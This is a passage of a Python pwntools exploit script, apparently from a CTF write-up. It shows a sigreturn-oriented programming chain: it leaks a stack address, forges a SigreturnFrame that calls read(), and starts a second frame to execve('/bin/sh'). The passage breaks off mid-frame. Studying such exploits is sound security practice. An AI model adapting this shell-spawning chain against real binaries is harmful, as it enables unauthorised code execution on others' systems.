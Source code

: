 ```

## so that skip the xor rax,rax; then the rax=1

## get stack addr

sh.send('\xb3')

raw_input()

stack_addr = u64(sh.recv()[8:16])

raw_input()

log.success('leak stack addr :' + hex(stack_addr))

raw_input()

## make the rsp point to stack_addr

## the frame is read(0,stack_addr,0x400)

sigframe = SigreturnFrame()

sigframe.rax = constants.SYS_read

sigframe.rdi = 0

sigframe.rsi = stack_addr

sigframe.rdx = 0x400

sigframe.rsp = stack_addr

sigframe.rip = syscall_ret

payload = p64(start_addr) + 'a' * 8 + str(sigframe)

sh.send(payload)

raw_input()

## set rax=15 and call sigreturn

sigreturn = p64(syscall_ret) + 'b' * 7

sh.send(sigreturn)

raw_input()

## call execv("/bin/sh",0,0)

sigframe = SigreturnFrame()

sigframe.rax = constants.SYS_execve

sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr

sigframe.rsi = 0x0

sigframe.rdx = 0x0

sigframe.rsp = stack_addr

```